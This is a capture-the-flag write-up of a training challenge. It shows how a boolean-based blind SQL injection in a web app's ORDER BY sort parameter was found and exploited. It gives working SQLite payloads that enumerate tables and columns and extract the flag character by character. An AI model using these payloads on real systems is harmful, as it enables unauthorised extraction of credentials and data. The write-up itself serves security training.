





# Ezzz (BKSEC Training 2026)
---
## Overview

The site gives us a console managing list of event which has a sorting function by date or title. We can also add/delete events.



## Functionality analysis

- `/add`: add function adds an event to the list and redirect to `/?status=success`



-`/delete/{id}`: delete the event with id = {id}



-`/sort?key=title`: sort by title lexicographically



-`/sort?key=date`: sort by date, oldest first



## Vulnerability analysis

The server may get user input and store it into a database.

I tried injecting `'` and `\` at event title and date.
The title showed no behavior, while the date did.


Upon injecting at the key to sort, the response showed error from database.


Replacing the quotes by comment, server returned the result sorted by date.

Then I thought the value of key was at the end of sql query, after `OrderBy`.

The server query may be like this:

`SELECT title, date from 'table_name' ORDER BY 'key'`

Let's try with this payload:
`(SELECT CASE WHEN (1=1) THEN title ELSE date END)`


When I switched to `1=2`, the page did change.


This confirmed that server can be expoited via `SQL injection`

However, the sink is at the end of the query and after Orderby, it's pretty hard to select and return data via title and date. In this case, we must exploit **Boolean-based SQLi** within True/False is date, False/True is title.

- **Vul**: server receives and blindly trusts data from query **key** without sanitizations or escape, resulting in SQLi. Attacker can abuse this vulnerability to probe char-by-char for credentials.

## Exploitation

I checked for DBMS with `version()` to see if it's MySQL or MSSQL but got error.


Then **sqlite_version()** confirmed it is


Search for payload on PayloadAllTheThings category SQLite injection.

I counted the number of table (not table of system). Reckoning it's 1, if not, the events will be sorted by title. Change 1 by other value if wrong

```sqlite
(SELECT CASE WHEN ((SELECT count(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' ) = 1) THEN date ELSE title END)
```


Now there are two tables, I'll figure out it's length.

```sqlite
(SELECT CASE WHEN ((SELECT length(tbl_name) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) = 4) THEN date ELSE title END)
```

Probing for value and it was 5-char in length

Brute for the second table and it's 9-char length (substitue **OFFSET 0** by **OFFSET 1**)


Then I continued finding the table name.

```sqlite
(SELECT CASE WHEN ((SELECT SUBSTR(tbl_name,1,1) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' LIMIT 1 OFFSET 0) = 'f') THEN date ELSE title END)
```

You can refer to my [script](assets/Ezz_table_name.py) for automation. ***Paste your session as input***

These tables are:
- lists
- flag42123

Find column of `flag42123`, fine-tune `OFFSET 0`, `SUBSTR` offset and value to find the correct column name:

```sqlite
(SELECT CASE WHEN ((SELECT SUBSTR(name,1,4) FROM pragma_table_info('flag42123') LIMIT 1 OFFSET 1) = 'flag') THEN date ELSE title END)
```

We found a column named **flag**

Next is the flag length:

```sqlite
(SELECT CASE WHEN ((SELECT length(flag) FROM flag42123) = 135) THEN date ELSE title END)
```


Finally is extracting the flag:

```sqlite
(SELECT CASE WHEN ((SELECT SUBSTR(flag,1,6) FROM flag42123) = 'BKSEC{') THEN date ELSE title END)
```


The flag is 135-char length. If being lazy, refer to my [script](assets/Ezzz_flag.py) for short


> ***BKSEC{B00l34n_4nd_3rr0r_B4s3d_SQLi_4r3_P0w3rfu1_T3cHn1qu3s_MHjQsk0ygYzovO6hwa_c58073fdf6c9eae0f13a6460d0c45659da9336448f0f5c12846e65ae}***